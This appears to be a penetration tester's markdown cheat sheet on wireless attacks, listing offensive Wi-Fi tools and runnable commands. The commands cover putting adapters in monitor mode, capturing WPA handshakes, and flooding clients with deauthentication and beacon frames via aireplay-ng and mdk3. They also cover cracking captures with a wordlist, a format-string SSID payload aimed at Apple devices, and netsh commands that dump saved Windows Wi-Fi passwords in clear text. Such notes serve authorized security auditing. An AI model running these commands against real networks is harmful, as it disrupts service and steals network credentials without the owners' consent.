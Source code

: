 # Wireless Attacks

- [Resources](#resources)

## Table of Contents

- [Aircrack-ng](#aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#alfa-awus036ach)
- [Apple Wi-Fi Evil SSID](#apple-wi-fi-evil-ssid)
- [mdk3](#mdk3)
- [Microsoft Windows](#microsoft-windows)
- [Wi-Fi Example Attack](#wi-fi-example-attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| OneShot | Run WPS PIN attacks (Pixie Dust, online bruteforce, PIN prediction) without monitor mode with the wpa_supplicant | https://github.com/kimocoder/OneShot |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```console
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```console
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```console
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```console
%p%s%s%s%s%n
```

## iw

```console
$ iwconfig
$ iw <INTERFACE> scan
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```console
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```console
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```console
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```console
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```console
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```console
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```console
$ sudo airmon-ng stop wlan0mon
```

## wpa_supplicant

### wpa_supplicant.conf

```console
$ echo 'ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1

network={
    ssid="<SSID>"
    psk="<PSK>"
}' > /etc/wpa_supplicant.conf
```

```console
$ wpa_supplicant -B -D wext -i <INTERFACE> -c /etc/wpa_supplicant.conf
```

```console
$ ip link set <INTERFACE> up
```

```console
$ dhclient -h
```
